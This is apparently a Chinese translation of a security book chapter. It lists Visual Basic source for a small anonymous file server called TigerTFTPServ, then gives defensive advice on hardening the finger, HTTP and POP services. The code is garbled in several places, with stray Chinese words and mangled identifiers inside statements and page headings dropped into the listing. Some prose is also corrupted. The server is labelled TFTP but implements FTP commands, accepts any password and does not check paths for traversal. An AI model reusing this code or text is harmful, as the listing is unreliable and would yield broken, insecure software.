如果你是寻求具有一定控制权的 TFTP 提供的家庭用户和/或私人 Windows 用户，可以使用 TigerTFTPServ（图 1.21）。该程序供你以任何方式修改、分发和使用。TigerTFTPServ 基本上是 FTP 的精简版本，监听端口 69 以接收 TFTP 连接请求。遵循 TFTP 指南，该程序仅允许单个连接流（最大潜在连接数可以在代码中轻松修改）到单个目录进行文件传输。代码可以修改为接受经过身份验证 Users；但请注意，此版本支持匿名会话。包含一个会话嗅探器，用于监控来自目录 `c:\tftp` 的每次事务。

#### 主窗体

```vb
Option Explicit
Public WithEvents FTPServer As Server

Private Sub Command1_Click()
StartServer
End Sub

Private Sub Command2_Click()
```


 ```
StopServer
End Sub
```

```
Private Sub Command3_Click()
    Unload Me
    End
End Sub
```

```
Private Sub Form_Load()
    Set FTPServer = New Server
    Set frmWinsock.FTPServer = FTPServer

End Sub
```

```
Public Sub Form_Resize()
    On Error Resume Next
    txtSvrLog.Width = (frmMain.Width - 120)
    txtSvrLog.Height = (frmMain.Height - 690)
End Sub
```

```
Public Sub Form_UnLoad(Cancel As Integer)
    StopServer
    Set FTPServer = Nothing
    Set frmWinsock.FTPServer = Nothing
    Unload frmWinsock
    Unload Me
    Set frmWinsock = Nothing
    Set frmMain = Nothing
    End
End Sub
```

```
Private Sub FTPServer_ServerStarted()
    WriteToLogWindow "正在监听!", True
End Sub
```

```
Private Sub FTPServer_ServerStopped()
    WriteToLogWindow "已停止!", True
End Sub
```

```
Private Sub FTPServer_ServerErrorOccurred(ByVal errNumber As Long)
    MsgBox FTPServer.ServerGetErrorDescription(errNumber),
    vbInformation, "发生错误!"
End Sub
```

```
Private Sub FTPServer_NewClient(ByVal ClientID As Long)
    WriteToLogWindow "客户端 " & ClientID & " 已连接! (" &
    FTPServer.GetClientIPAddress(ClientID) & ")", True
End Sub
```

```
Private Sub FTPServer_ClientSentCommand(ByVal ClientID As Long, Command
```

#### Winsock

```
As String, Args As String)
    WriteToLogWindow "客户端 " & ClientID & " 发送: " & Command & " " &
Args, True
End Sub
```

```
Private Sub FTPServer_ClientStatusChanged(ByVal ClientID As Long)
    WriteToLogWindow "客户端 " & ClientID & " 状态: " &
    FTPServer.GetClientStatus(ClientID), True
End Sub
```

```
Private Sub FTPServer_ClientLoggedOut(ByVal ClientID As Long)
    WriteToLogWindow "客户端 " & ClientID & " 已登出!", True
End Sub
```

```
Option Explicit
Public WithEvents FTPServer As Server

Private Sub CommandSock_ConnectionRequest(Index As Integer, ByVal
requestID As Long)
    DoEvents
    FTPServer.NewClient requestID
End Sub
```

```
Private Sub DataSock_ConnectionRequest(Index As Integer, ByVal requestID
As Long)
    DoEvents
    DataSock(Index).Close
    DataSock(Index).Accept requestID
End Sub
```

```
Private Sub CommandSock_DataArrival(Index As Integer, ByVal bytesTotal
As Long)
    DoEvents
    Dim raw_data As String
    CommandSock(Index).GetData raw_data
    FTPServer.ProcFTPCommand Index, raw_data
End Sub
```

```
Private Sub DataSock_SendComplete(Index As Integer)
    DoEvents
    FTPServer.SendComplete Index
End Sub
```

```
Private Sub CommandSock_Close(Index As Integer)
    DoEvents
    FTPServer.LogoutClient , Index
End Sub
```

#### Functions

```
Option Explicit

Public Sub WriteToLogWindow(strString As String, Optional TimeStamp As Boolean)
    Dim strTimeStamp As String
    Dim tmpText As String
    If TimeStamp = True Then strTimeStamp = "[" & Now & "] "
    tmpText = frmMain.txtSvrLog.Text
    If Len(tmpText) > 20000 Then tmpText = Right$(tmpText, 20000)
    frmMain.txtSvrLog.Text = tmpText & vbCrLf & strTimeStamp & strString
    frmMain.txtSvrLog.SelStart = Len(frmMain.txtSvrLog.Text)
End Sub

Public Function StripNulls(strString As Variant) As String
    If InStr(strString, vbNullChar) Then
        StripNulls = Left(strString, InStr(strString, vbNullChar) - 1)
    Else
        StripNulls = strString
    End If
End Function
```

#### Port Control

```
Option Explicit

Public Sub StartServer()
    Dim r As Long
    With frmMain
        .FTPServer.ListeningPort = 69
        .FTPServer.ServerMaxClients = 1
        r = .FTPServer.StartServer()
        If r <> 0 Then
            MsgBox .FTPServer.ServerGetErrorDescription(r), vbCritical
        End If
    End With
End Sub

Public Sub StopServer()
    frmMain.FTPServer.ShutdownServer
End Sub
```

#### Server Engine

```
Option Explicit
Private Port As Long
Private MaxClients As Integer
Private TransferBufferSize As Long
Private ClientCounter As Long
Private ConnectedClients As Long
Private ServerActive As Boolean
```

```
Private Enum ClientStatus
    stat_IDLE = 0
    stat_LOGGING_IN = 1
    stat_GETTING_DIR_LIST = 2
    stat_UPLOADING = 3
    stat_DOWNLOADING = 4
End Enum

Private Enum ConnectModes
    cMode_NORMAL = 0
    cMode_PASV = 1
End Enum

Private Type ftpClient
    inUse As Boolean
    ID As Long
    UserName As String
    IPAddress As String
    DataPort As Long
    ConnectedAt As String
    IdleSince As String
    TotalBytesUploaded As Long
    TotalBytesDownloaded As Long
    TotalFilesUploaded As Long
    TotalFilesDownloaded As Long
    CurrentFile As String
    cFileTotalBytes As Long
    cTotalBytesXfer As Long
    fFile As Long
    ConnectMode As ConnectModes
    HomeDir As String
    CurrentDir As String
    Status As ClientStatus
End Type

Private Const MAX_IDLE_TIME = 900
Private Const MAX_CONNECTIONS = 500
Private client(MAX_CONNECTIONS) As ftpClient
Public Event ServerErrorOccurred(ByVal errNumber As Long)
Public Event ServerStarted()
Public Event ServerStopped()
Public Event NewClient(ByVal ClientID As Long)
Public Event ClientLoggedIn(ByVal ClientID As Long)
Public Event ClientLoggedOut(ByVal ClientID As Long)
Public Event ClientSentCommand(ByVal ClientID As Long, Command As String, Args As String)
Public Event ClientStatusChanged(ByVal ClientID As Long)
Private Declare Function FindFirstFile Lib "kernel32" Alias "FindFirstFileA" (_
```

```
ByVal lpFileName As String, _
lpFindFileData As WIN32_FIND_DATA _
) As Long
Private Declare Function FindNextFile Lib "kernel32" Alias
"FindNextFileA" ( _
ByVal hFindFile As Long, _
lpFindFileData As WIN32_FIND_DATA _
) As Long
Private Declare Function FileTimeToSystemTime Lib "kernel32" ( _
lpFileTime As FILETIME, _
lpSystemTime As SYSTEMTIME _
) As Long
Private Type FILETIME
    dwLowDateTime As Long
    dwHighDateTime As Long
End Type
Private Declare Function FindClose Lib "kernel32" ( _
    ByVal hFindFile As Long _
) As Long
Private Const MAX_PATH = 260
Private Type WIN32_FIND_DATA
    dwFileAttributes As Long
    ftCreationTime As FILETIME
    ftLastAccessTime As FILETIME
    ftLastWriteTime As FILETIME
    nFileSizeHigh As Long
    nFileSizeLow As Long
    dwReserved0 As Long
    dwReserved1 As Long
    cFileName As String * MAX_PATH
    cAlternate As String * 14
End Type
Private Type SYSTEMTIME
    wYear As Integer
    wMonth As Integer
    wDayOfWeek As Integer
    wDay As Integer
    wHour As Integer
    wMinute As Integer
    wSecond As Integer
    wMilliseconds As Long
End Type

Public Property Get ListeningPort() As Long
    ListeningPort = Port
End Property

Public Property Let ListeningPort(NewPort As Long)
    If Port = 0 Then
        Port = NewPort
    End If
End Property
```

```
End Property

Public Property Get ServerMaxClients() As Integer
    ServerMaxClients = MaxClients
End Property

Public Property Let ServerMaxClients(Max As Integer)
    If Max >= 0 Then
        MaxClients = Max
    End If
End Property

Public Property Get TransBufferSize() As Long
    TransBufferSize = TransferBufferSize
End Property

Public Property Let TransBufferSize(BuffSize As Long)
    If BuffSize > 0 Then
        TransferBufferSize = BuffSize
    End If
End Property

Public Property Get CurrentConnectedClients() As Long
    CurrentConnectedClients = ConnectedClients
End Property

Public Property Get CurrentClientCounter() As Long
    CurrentClientCounter = ClientCounter
End Property

Public Property Get GetClientConnectedAt(ClientID As Long) As String
    GetClientConnectedAt =
    client(GetClientArrayLocByID(ClientID)).ConnectedAt
End Property

Public Property Get GetClientConnectMode(ClientID As Long) As String
    GetClientConnectMode =
    client(GetClientArrayLocByID(ClientID)).ConnectMode
End Property

Public Property Get GetClientcTotalBytesXfer(ClientID As Long) As Long
    GetClientcTotalBytesXfer =
    client(GetClientArrayLocByID(ClientID)).cTotalBytesXfer
End Property

Public Property Get GetClientcFileTotalBytes(ClientID As Long) As Long
    GetClientcFileTotalBytes =
    client(GetClientArrayLocByID(ClientID)).cFileTotalBytes
End Property

Public Property Get GetClientCurrentDir(ClientID As Long) As String
```


 ```
Public Property Get GetClientCurrentDir(ClientID As Long) As String
    GetClientCurrentDir = client(GetClientArrayLocByID(ClientID)).CurrentDir
End Property
```

```
Public Property Get GetClientCurrentFile(ClientID As Long) As String
    GetClientCurrentFile = client(GetClientArrayLocByID(ClientID)).CurrentFile
End Property
```

```
Public Property Get GetClientDataPort(ClientID As Long) As Long
    GetClientDataPort = client(GetClientArrayLocByID(ClientID)).DataPort
End Property
```

```
Public Property Get GetClientfFile(ClientID As Long) As Long
    GetClientfFile = client(GetClientArrayLocByID(ClientID)).fFile
End Property
```

```
Public Property Get GetClientHomeDir(ClientID As Long) As String
    GetClientHomeDir = client(GetClientArrayLocByID(ClientID)).HomeDir
End Property
```

```
Public Property Get GetClientIdleSince(ClientID As Long) As Long
    GetClientIdleSince = client(GetClientArrayLocByID(ClientID)).IdleSince
End Property
```

```
Public Property Get GetClientIPAddress(ClientID As Long) As String
    GetClientIPAddress = client(GetClientArrayLocByID(ClientID)).IPAddress
End Property
```

```
Public Property Get GetClientStatus(ClientID As Long) As String
    GetClientStatus = ServerGetClientStatusDescription(client(GetClientArrayLocByID(ClientID)).Status)
End Property
```

```
Public Property Get GetClientTotalBytesDownloaded(ClientID As Long) As Long
    GetClientTotalBytesDownloaded = client(GetClientArrayLocByID(ClientID)).TotalBytesDownloaded
End Property
```

```
Public Property Get GetClientTotalBytesUploaded(ClientID As Long) As Long
    GetClientTotalBytesUploaded = client(GetClientArrayLocByID(ClientID)).TotalBytesUploaded
End Property
```

```
Public Property Get GetClientTotalFilesDownloaded(ClientID As Long) As Long
    GetClientTotalFilesDownloaded = client(GetClientoauthClientArrayLocByID(ClientID)).TotalFilesDownloaded
End Property
```

```
Public Property Get GetClientTotalFilesUploaded(ClientID As Long) As Long
    GetClientTotalFilesUploaded = client(GetClientArrayLocByID(ClientID)).TotalFilesUploaded
End Property
```

```
Public Property Get GetClientUserName(ClientID As Long) As String
    GetClientUserName = client(GetClientArrayLocByID(ClientID)).UserName
End Property
```

```
Public Function StartServer() As Long
    If ServerActive = True Then
        StartServer = 1001
        Exit Function
    End If
    If Port < 1 Then
        StartServer = 1002
        Exit Function
    End If
    If TransferBufferSize < 1 Then TransferBufferSize = 4096
    With frmWinsock.CommandSock(0)
        .LocalPort = Port
        .Listen
    End With
    ServerActive = True
    RaiseEvent ServerStarted
End Function
```

```
Public Sub NewClient(requestID As Long)
    Dim tmpID As Long
    Dim i As Integer
    ConnectedClients = ConnectedClients + 1
    ClientCounter = ClientCounter + 1
    tmpID = ClientCounter
    Do
        i = i + 1
    Loop Until client(i).inUse = False
    With client(i)
        .inUse = True
        Load frmWinsock.CommandSock(i)
        Load frmWinsock.DataSock(i)
        frmWinsock.CommandSock(i).Accept requestID
        .ConnectedAt = Now
        .ID = tmpID
        .Status = stat_LOGGING_IN
        .IdleSince = Now
        .IPAddress = frmWinsock.CommandSock(i).RemoteHostIP
    End With
    RaiseEvent NewClient(client(i).ID)
    If ((ConnectedClients > MaxClients) And (MaxClients <> 0)) Or (ConnectedClients > MAX_CONNECTIONS) Then
        SendResponse i, "421 Too many users - try again later."
        LogoutClient , i
        Exit Sub
    End If
    SendResponse i, "220 P1mp FTP Engine version " & App.Major & ".0" & App.Minor & " build " & App.Revision
End Sub
```

```
Private Sub SendResponse(sckArrayLoc As Integer, data As String)
    frmWinsock.CommandSock(sckArrayLoc).SendData data & vbCrLf
    DoEvents
End Sub
```

```
Private Sub SendData(sckArrayLoc As Integer, data As String)
    frmWinsock.DataSock(sckArrayLoc).SendData data
End Sub
```

```
Public Sub SendComplete(sckArrayLoc As Integer)
    With client(sckArrayLoc)
        Select Case .Status
            Case stat_GETTING_DIR_LIST
                frmWinsock.DataSock(sckArrayLoc).Close
                SendResponse sckArrayLoc, "226 Transfer complete."
                .Status = stat_IDLE
                RaiseEvent ClientStatusChanged(.ID)
            
            Case stat_DOWNLOADING
                If .cFileTotalBytes = .cTotalBytesXfer Then
                    Close #.fFile
                    frmWinsock.DataSock(sckArrayLoc).Close
                    .DataPort = 0
                    SendResponse sckArrayLoc, "226 Transfer complete."
                    .cFileTotalBytes = 0
                    .cTotalBytesXfer = 0
                    .Status = stat_IDLE
                    RaiseEvent ClientStatusChanged(.ID)
                Else
                    SendFile sckArrayLoc
                End If
        End Select
    End With
End Sub
```

```
Private Sub LoginClient(cArrayLoc As Integer, Password As String)
    With client(cArrayLoc)
        .HomeDir = "C:\TFTP"
        .CurrentDir = .HomeDir
        SendResponse cArrayLoc, "230 User logged in, proceed."
        .Status = stat_IDLE
    End With
    RaiseEvent ClientLoggedIn(ByVal client(cArrayLoc).ID)
    RaiseEvent ClientStatusChanged(ByVal client(cArrayLoc).ID)
End Sub
```

```
Public Sub LogoutClient(Optional ByVal ID As Long, Optional cArrayLoc As Integer)
    On Error Resume Next
    If ID = 0 And cArrayLoc = 0 Then Exit Sub
    Dim ArrayPos As Integer
    Dim tmp As Long
    If ID = 0 Then
        ArrayPos = cArrayLoc
    Else
        ArrayPos = GetClientArrayLocByID(ID)
    End If
    If client(ArrayPos).ID = 0 Then Exit Sub
    If ArrayPos < 1 Then Exit Sub
    With client(ArrayPos)
        frmWinsock.CommandSock(ArrayPos).Close
        frmWinsock.DataSock(ArrayPos).Close
        Unload frmWinsock.CommandSock(ArrayPos)
        Unload frmWinsock.DataSock(ArrayPos)
        If .fFile <> 0 Then Close #.fFile
        .ConnectedAt = ""
        .ConnectMode = 0
        .cTotalBytesXfer = 0
        .cFileTotalBytes = 0
        .CurrentDir = ""
        .CurrentFile = ""
        .DataPort = 0
        .fFile = 0
        .HomeDir = ""
        tmp = .ID
        .ID = 0
        .IdleSince = ""
        .IPAddress = ""
        .Status = stat_IDLE
        .TotalBytesDownloaded = 0
        .TotalBytesUploaded = 0
        .TotalFilesDownloaded = 0
        .TotalFilesUploaded = 0
独树一帜 .UserName = ""
        .inUse = False
    End With
    If ConnectedClients > 0 Then ConnectedClients = ConnectedClients - 1
    RaiseEvent ClientLoggedOut(ByVal tmp)
End Sub
```

```
Private Function GetClientArrayLocByID(ByVal ID As Long) As Integer
    Dim i As Integer
    For i = 0 To UBound(client)
        If client(i).ID = ID Then
            GetClientArrayLocByID = i
            Exit Function
        End If
    Next
    GetClientArrayLocByID = -1
End Function
```

```
Public Sub ProcFTPCommand(ByVal sckArrayLoc As Integer, ByRef raw_data As String)
    Dim data
    Dim ftpCommand As String
    Dim ftpArgs As String

    data = Replace$(raw_data, vbCrLf, "")

    If InStr(data, " ") = 0 Then
        ftpCommand = data
    Else
        ftpCommand = Left$(data, (InStr(data, " ") - 1))
        ftpArgs = Right$(data, (Len(data) - InStr(data, " ")))
    End If

    RaiseEvent ClientSentCommand(client(sckArrayLoc).ID, ftpCommand, ftpArgs)
    client(sckArrayLoc).IdleSince = Now

    Select Case UCase$(ftpCommand)

        Case "USER"
            If ftpArgs = "anonymous" Then
                client(sckArrayLoc).UserName = ftpArgs
                SendResponse sckArrayLoc, "331 User name ok, need password."
            Else
                SendResponse sckArrayLoc, "530 Not logged in: No such account " & ftpArgs
            End If

        Case "PASS"
            LoginClient sckArrayLoc, ftpArgs

        Case "TYPE"
            SendResponse sckArrayLoc, "200 Type set to " & ftpArgs

        Case "REST"
            SendResponse sckArrayLoc, "350 Restarting at " & ftpArgs & " - send STORE or RETRIEVE to initiate transfer."

        Case "PWD"
"
            SendResponse sckArrayLoc, "257 " & Chr(34) & ConvPathToRelative(client(sckArrayLoc).HomeDir, client(sckArrayLoc).CurrentDir) & Chr(34) & " is current directory."

        Case "PORT"
            Dim tmpArray() As String
            tmpArray = Split(ftpArgs, ",")
            client(sckArrayLoc).DataPort = tmpArray(4) * 256 Or tmpArray(5)
            SendResponse sckArrayLoc, "200 Port command successful."

        Case "LIST"
            SendResponse sckArrayLoc, "150 Opening ASCII mode data connection for /bin/ls."
            client(sckArrayLoc).Status = stat_GETTING_DIR_LIST
            RaiseEvent ClientStatusChanged(client(sckArrayLoc).ID)
            GetDirectoryList sckArrayLoc

        Case "RETR"
            GetFileToSend sckArrayLoc, ftpArgs

        Case "CWD"
            ChangeDirectory sckArrayLoc, ftpArgs

        Case "CDUP"
            Dim tmp As String
            tmp = client(sckArrayLoc).CurrentDir
            If isRootDir(sckArrayLoc, tmp) = False Then
                If Right$(tmp, 1) = "\\" Then tmp = Left$(tmp, Len(tmp) - 1)
                tmp = Left$(tmp, InStrRev(tmp, "\\"))
            End If
            ChangeDirectory sckArrayLoc, ConvPathToRelative(client(sckArrayLoc).HomeDir, tmp)

        Case "PASV"
            client(sckArrayLoc).ConnectMode = cMode_PASV
            SendResponse sckArrayLoc, "227 Entering Passive Mode (" & Replace(frmWinsock.CommandSock(0).LocalIP, ".", ",") & OpenLocalDataPort(sckArrayLoc) & ")"
```


 ```
Case "NOOP"
    SendResponse sckArrayLoc, "200 NOOP 命令成功。"

Case Else
    SendResponse sckArrayLoc, "502 命令未实现。"

End Select
```

```
End Sub
```

```
Private Sub GetDirectoryList(cArrayLoc As Integer)
    Dim hFile As Long
    Dim r As Long
    Dim fname As String
    Dim WFD As WIN32_FIND_DATA
    Dim dirList As String
    Dim permissions As String
    hFile = FindFirstFile(client(cArrayLoc).CurrentDir & "*.*" & Chr$(0), WFD)
    If Left$(WFD.cFileName, InStr(WFD.cFileName, vbNullChar) - 1) <> "." And Left$(WFD.cFileName, InStr(WFD.cFileName, vbNullChar) - 1) <> ".." Then
        If (WFD.dwFileAttributes And vbDirectory) Then
            permissions = "drwx------"
        Else
            permissions = "-rwx------"
```

```
End If

        dirList = permissions _
            & " 1 用户 组 " _
            & WFD.nFileSizeLow _
            & get_date(WFD.ftLastWriteTime) _
            & Left$(WFD.cFileName, InStr(WFD.cFileName, vbNullChar) - 1) _

            & vbCrLf
    End If
```

```
While FindNextFile(hFile, WFD)
        If Left$(WFD.cFileName, InStr(WFD.cFileName, vbNullChar) - 1) <> "." And Left$(WFD.cFileName, InStr(WFD.cFileName, vbNullChar) - 1) <> ".." Then
            If (WFD.dwFileAttributes And vbDirectory) Then
                permissions = "drwx------"
            Else
                permissions = "-rwx------"
            End If
            dirList = dirList _
                & permissions _
                & " 1 用户 组 " _
                & WFD.nFileSizeLow _
                & get_date(WFD.ftLastWriteTime) _
```

##### 60 次黑客攻击被阻止

```
                & Left$(WFD.cFileName, InStr(WFD.cFileName, vbNullChar) - 1) _
                & vbCrLf
            End If

            DoEvents

        Wend

        r = FindClose(hFile)

        MakeDataConnection cArrayLoc

        If dirList = "" Then

            frmWinsock.DataSock(cArrayLoc).Close
            SendResponse cArrayLoc, "226 传输完成。"

            client(cArrayLoc).Status = stat_IDLE
            RaiseEvent ClientStatusChanged(client(cArrayLoc).ID)
            Exit Sub
        End If

        SendData cArrayLoc, dirList

    End Sub

    Private Function MakeDataConnection(sckArrayLoc As Integer) As Long
        If client(sckArrayLoc).ConnectMode = cMode_NORMAL Then
            frmWinsock.DataSock(sckArrayLoc).RemoteHost = client(sckArrayLoc).IPAddress
            frmWinsock.DataSock(sckArrayLoc).RemotePort = client(sckArrayLoc).DataPort
            frmWinsock.DataSock(sckArrayLoc).Connect
        End If

        Do
            DoEvents
        Loop Until frmWinsock.DataSock(sckArrayLoc).State = sckConnected

    End Function

    Private Function OpenLocalDataPort(sckArrayLoc As Integer) As String

        Dim Nr1 As Integer
        Dim Nr2 As Integer

        Randomize Timer
        Nr1 = Int(Rnd * 12) + 5
```

```
Nr2 = Int(Rnd * 254) + 1

frmWinsock.DataSock(sckArrayLoc).Close
frmWinsock.DataSock(sckArrayLoc).LocalPort = (Nr1 * 256) Or Nr2
frmWinsock.DataSock(sckArrayLoc).Listen

OpenLocalDataPort = "," & Nr1 & "," & Nr2

End Function

Private Function isRootDir(cArrayLoc As Integer, strDir As String) As Boolean

    IfStatus;如果 client(cArrayLoc).HomeDir = strDir Then isRootDir = True

End Function

Private Sub ChangeDirectory(cArrayLoc As Integer, ChangeTo As String)

    If Left$(ChangeTo, 1) = "/" Then

        If FileExists(ConvPathToLocal(client(cArrayLoc).HomeDir, ChangeTo)) = True Then
            client(cArrayLoc).CurrentDir = ConvPathToLocal(client(cArrayLoc).HomeDir, ChangeTo)
        Else
            SendResponse cArrayLoc, "550 " & ChangeTo & ": 没有这样的文件或目录。"
            Exit Sub
        End If
    Else

        If FileExists(ConvPathToLocal(client(cArrayLoc).CurrentDir, ChangeTo)) = True Then
            client(cArrayLoc).CurrentDir = ConvPathToLocal(client(cArrayLoc).CurrentDir, ChangeTo)
        Else
            SendResponse cArrayLoc, "550 " & ChangeTo & ": 没有这样的文件或目录。"
            Exit Sub
        End If
    End If

    SendResponse cArrayLoc, "250 目录已更改为 " & ConvPathToRelative(client(cArrayLoc).HomeDir, client(cArrayLoc).CurrentDir)

End Sub
```

```
Private Sub GetFileToSend(cArrayLoc As Integer, File As String)

    With client(cArrayLoc)

        If FileExists(.CurrentDir & File) = False Then
            SendResponse cArrayLoc, "550 " & File & ": 没有这样的文件或目录。"
            Exit Sub
        End If

        .cFileTotalBytes = FileLen(.CurrentDir & File)

        .CurrentFile = .CurrentDir & File

        SendResponse cArrayLoc, "150 正在打开 BINARY 模式数据连接以传输 " & File & " (" & .cFileTotalBytes & " 字节)"

        .fFile = FreeFile
        Open .CurrentDir & File For Binary Access Read As #.fFile

        .Status = stat_DOWNLOADING
        RaiseEvent ClientStatusChanged(.ID)
    End With

    MakeDataConnection cArrayLoc

    SendFile cArrayLoc

End Sub
```

```
Private Sub SendFile(cArrayLoc As Integer)

    Dim BlockSize As Integer
    Dim DataToSend As String

    BlockSize = TransferBufferSize

    With client(cArrayLoc)
        If BlockSize > (.cFileTotalBytes - .cTotalBytesXfer) Then
            BlockSize = (.cFileTotalBytes - .cTotalBytesXfer)
        End If
        DataToSend = Space$(BlockSize)
        Get #.fFile, , DataToSend
        .cTotalBytesXfer = .cTotalBytesXfer + BlockSize
        .TotalBytesDownloaded = .TotalBytesDownloaded + BlockSize
    End With
    SendData cArrayLoc, DataToSend
End Sub
```

```
Public Function ShutdownServer() As Long
```

```
frmWinsock.CommandSock(0).Close
ServerActive = False
RaiseEvent ServerStopped
End Function
```

```
Private Function ConvPathToLocal(ByVal StartPath As String, ByVal CurrentPath As String) As String
    Dim result As String
    If Right$(StartPath, 1) <> "\\" Then StartPath = StartPath & "\\"
    If Left$(CurrentPath, 1) = "/" Then CurrentPath = Right$(CurrentPath, Len(CurrentPath) - 1)
    CurrentPath = Replace$(CurrentPath, "/", "\\")
    result = StartPath & CurrentPath
    If Right$(result, 1) <> "\\" Then result = result & "\\"
    ConvPathToLocal = result
End Function
```

```
Private Function ConvPathToRelative(ByVal StartPath As String, ByVal CurrentPath As String) As String
    If Right$(StartPath, 1) <> "\\" Then StartPath = StartPath & "\\"
    If Right$(CurrentPath, 1) <> "\\" Then CurrentPath = CurrentPath & "\\"

    Dim strRelPath As String

    If StartPath = CurrentPath Then
        strRelPath = "/"
    Else
        strRelPath = Replace$(CurrentPath, StartPath, "/")
        strRelPath = Replace$(strRelPath, "\\", "/")

        If Right$(strRelPath, 1) = "/" Then strRelPath = Left$(strRelPath, Len(strRelPath) - 1)
    End If
    ConvPathToRelative = strRelPath
End Function
```

```
Public Function ServerGetClientStatusDescription(ByVal stat As Integer) As String
    Select Case stat
        Case stat_IDLE: ServerGetClientStatusDescription = "空闲"
        Case stat_LOGGING_IN: ServerGetClientStatusDescription = "正在连接..."
        Case stat_GETTING_DIR_LIST: ServerGetClientStatusDescription = "正在下载文件列表"
        Case stat_UPLOADING: ServerGetClientStatusDescription = "正在上传"
        Case stat_DOWNLOADING: ServerGetClientStatusDescription = "正在下载"
        Case Else: ServerGetClientStatusDescription = "未知状态"
```

##### 64 次黑客攻击被阻止

```
End Select
End Function

Public Function ServerGetErrorDescription(ByVal errCode As Long) As String
    Select Case errCode
        Case 1001: ServerGetErrorDescription = "服务器已在运行。"
        Case 1002: ServerGetErrorDescription = "服务器启动失败，因为未指定端口或指定了无效端口。"
        Case Else: ServerGetErrorDescription = "未知错误 " & errCode
    End Select
End Function
```

```
Private Function get_date(FT As FILETIME) As String
    Dim ST As SYSTEMTIME
    Dim r As Long
    Dim ds As String

    r = FileTimeToSystemTime(FT, ST)

    ds = DateSerial(ST.wYear, ST.wMonth, ST.wDay)

    If DateDiff("d", ds, Date) > 365 Then
        get_date = Format$(ds, " mmm dd yyyy ")
    Else
        get_date = Format$(ds & " " & ST.wHour & ":" & ST.wMinute, " mmm dd hh:mm ")
    End If

End Function
```

```
Private Function FileExists(FileName As String) As Boolean

    Dim hFindFile As Long
    Dim FileData As WIN32_FIND_DATA
    If Right(FileName, 1) = "\ " Then
        FileName = FileName & "*.*"
    End If

    hFindFile = FindFirstFile(FileName, FileData)
    If hFindFile = -1 Then
        FileExists = False
    Else
        FileExists = True
    End If

    FindClose hFindFile

End Function
```


 ## 端口 79：Finger

当一个电子邮件账户被 "finger" 时，它会返回关于该账户的有用探测信息。尽管返回的信息因守护进程和账户而异，但在某些系统上，finger 会报告用户当前是否处于会话中。其他系统则返回包括用户全名、地址和/或电话号码等信息。finger 过程相对简单：finger 客户端向此端口发起主动打开，并发送包含登录数据的一行查询。服务器处理查询，返回输出，然后关闭连接。从此服务接收的输出被认为是高度敏感的，因为它可能泄露用户的详细信息。在大多数情况下，由于此服务并非必需，特别是来自互联网的远程查询，finger 服务应当被禁用。

- 要在 *NIX 中禁用该服务，只需编辑 /etc/inetd.conf 文件，并将其条目注释掉，如前文在图 1.1 中对 echo 服务的演示。之后，重启整个系统或仅重启 inetd 进程。
- 在 Windows 系统中，从控制面板/添加/删除程序中卸载该程序。

如果遗留政策使得维护 finger 守护进程成为必要，请对该服务进行包装；并确保验证实际用户名不会被传播。接下来，配置该服务以禁用 finger 重定向，并测试以确保活动用户状态信息无法轻易获取。此服务以存在潜在漏洞而著称，因此请认真对待这些对策。如果你无法自定义程序源代码或控制守护进程配置，请禁用该软件包并寻找其他替代版本。

### 端口 80：HTTP

超文本传输协议（HTTP）是互联网万维网的基础协议。该协议定义了消息如何格式化和传输，并以无状态协议运行，因为每个命令都是独立执行的，无需了解之前的命令。此守护进程运作的最佳例子发生在浏览器中输入网站地址（URL）时。在底层，这实际上会向 Web 服务器发送 HTTP 命令，指示其提供或传输请求的网页到 Web 浏览器。特定版本的此守护进程的主要漏洞是网页黑客攻击。我们将在后续章节中研究的其他服务漏洞对策包括：特定服务的 DoS 攻击、通用网关接口（CGI）信息收集，以及持续的 Code Red 和 Nimda 蠕虫威胁。

尽管我们将对策技术的讨论留到本书后面，但我们将在此立即讨论一项重要的设计技术。建议按照 SMTP-NAT-DMZ 程序设计网络，如前文 *端口 25：SMTP* 中所讨论的。将 Web 服务器防火墙后面的非军事区中，可以节省无数应对黑客攻击的时间。此技术的主要方面涉及部署一台 "强化" 的防火墙，它将检查潜在的数百万 HTTP 请求数据包。这是最佳方案；然而，如果成本是控制因素（大多数情况下都是如此），建议保留详尽的系统日志并配置端口拦截器。端口拦截器，如 TigerWatch（在后续章节中讨论），充当迷你系统防火墙，关闭易受攻击的端口和服务，同时监控黑客攻击。

如果不需要 HTTP 服务，请在 *NIX 和 Windows 中 alike 禁用该服务。使用 *端口 21：FTP* 和 *端口 23：Telnet* 中描述的技术。并且在 *NIX 系统上，确保使用详尽的日志记录包装该服务，并禁用目录浏览。

#### TigerWebServer

企业、家庭和/或私有 Windows 用户如果需要安全的 Web 服务器部署，可以使用 TigerWebServer，它最初开发用于从 CD-ROM 提供 Web 服务器访问，这意味着你可以从 CD 运行整个网站。这是防止网页黑客攻击的可靠方法，因为攻击者无法远程覆盖你 CD-ROM 上的文件。该程序还有其他令人兴奋的功能，包括：

- 会话嗅探器
- 主动服务器监控
- 远程 Web 控制
- CGI 处理，包括留言板访问
- 实时聊天
- 最多 100,000 个最大同时连接流
- 自定义 FTP 和 telnet 模块
- 实时 IP 地址处理

TigerWebServer 的一个独特功能是我开发了有话直说。这意味着拥有永久、临时或拨号互联网访问账户的用户可以从任何地方、任何时间提供专业的 Web 服务器访问，无论您是否拥有多个拨号账户，每个账户每次会话提供不同的 IP 地址。TigerWebServer 还可以在有或没有域名服务的情况下工作。

> **Tiger 提示**  
> Tiger Web Server 在附录 A 末尾有更详细的描述。

### 端口 109、110：POP

邮局协议（POP）用于从邮件服务器守护进程检索电子邮件。历史上，POP 有两个广为人知的版本：第一个是 POP2（1980 年代），另一个是更新的 POP3。这两个版本的主要区别在于 POP2 需要 SMTP 服务器守护进程，而 POP3 可以独立使用。POP 基于客户端/服务器拓扑结构，其中电子邮件由邮件服务器接收并保存，直到客户端软件登录并提取消息。大多数 Web 浏览器已在其软件设计中集成 POP3 协议，如 Netscape 和 Microsoft 浏览器。

POP 设计集成中的漏洞允许远程攻击者登录以进行信息收集，以及在特定 POP3 账户密码修改后，将 telnet（通过端口 110）定向到这些守护进程的操作系统中。另一个常见漏洞在黑客分析的发现阶段打开，通过直接 telnet 到目标邮件系统的端口 110，可能泄露关键信息。另一个常见漏洞，也是黑客分析发现阶段的一部分，是检索邮件假脱机文件。

